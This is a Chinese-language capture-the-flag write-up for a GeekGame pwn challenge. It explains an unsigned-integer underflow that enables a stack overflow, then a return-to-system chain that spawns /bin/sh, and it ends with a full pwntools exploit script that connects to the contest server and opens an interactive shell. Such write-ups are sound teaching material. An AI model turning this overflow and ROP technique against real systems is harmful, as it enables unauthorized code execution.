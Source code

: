 ```c
    if (input_size < 101) {
        puts("Please input your string:");
        get_line(buffer, input_size);
    } else
        puts(":(");
    return 0;
}
```

输入的 `input_size` 为 `unsigned`，当 `input_size = 100` 时程序正常运行，但 `get_line` 的实现中有 `max_len - 1`。

当 `input_size = 0` 时程序发生下溢出，可以读入任意长的字符串。

> 当时没有发现 `backdoor` 函数，所以搞得比较复杂。

程序中存在 `system` 函数。并且存在 `/bin/sh` 字符串，但是没有 `pop rdi; ret` 的 gadget，当时不会 ret2libc，所以用了重新跳转到 `main` 函数中间，以使得 `rdi` 指向读入的字符串。

> 跳转到 `main` 函数中间是因为不然会在执行一遍 `init` 函数，程序会崩溃。

`main+137` 将 `rdi` 指向读入的字符串：

```assembly
   0x0000000000401311 <+137>:   lea    rdi,[rip+0xcf4]        # 0x40200c
```

用 pwndbg 调试出读入字符串与返回地址的距离是 128。所以构造 payload 为 `'A' * 120 + main137 + 'B' * 16 + '/bin/sh\0' + 'C' * 112 + ret + system_plt`，第二次读取字符串时只需要输入很短的字符串即可。程序会先跳转到 `main137`，设置 `rdi` 指向 `/bin/sh`，再跳转执行 `ret` 和 `system`。

+ 加入 `ret` 的 gadget 是为了让 xmm 寄存器 16 字节对齐。当时做不出来了，乱查查到了 [pwn system("/bin/sh")失败的原因](https://blog.csdn.net/weixin_42016744/article/details/122422452)
+ 另外还加了 `add rsp, 0x88; ret` 的 gadget，不然有时候会报错（`puts` 可以打印出来，但是 `system` 不能执行，可能是栈覆盖到了 `/bin/sh`）

```python
from pwn import *

# sh = process('./challenge1')
sh = remote('prob09.geekgame.pku.edu.cn', 10010)

sh.sendlineafter(
    'Please input your token: ',
    '419:MEUCIAJK6pgIYBAyoFwq0WANA1qSkViRLHOVsB2NajlbxhH9AiEAzmCTUCGKE9DnSt61ANO8cw2GpWE6Zj-1iFuTRm8E4Vg=')

system_plt = 0x401090
puts_plt = 0x401080

ret = 0x40101a
main137 = 0x401311
add_rsp_0x88_ret = 0x401365

payload = b'A' * 120 + main137.to_bytes(8, 'little') + b'B' * 16 + b'/bin/sh\0' + b'C' * 112
payload += ret.to_bytes(8, 'little') + (add_rsp_0x88_ret.to_bytes(8, 'little') + b'D' * 0x88) * 2 + system_plt.to_bytes(8, 'little')

assert b'\n' not in payload

payload += b'\n1\n'
payload += b'\nls -al\n'

with open('payload', 'wb') as f:
    f.write(b'0\n' + payload)

sh.sendline('0')
print(payload)
sh.sendline(payload)
sh.interactive()
```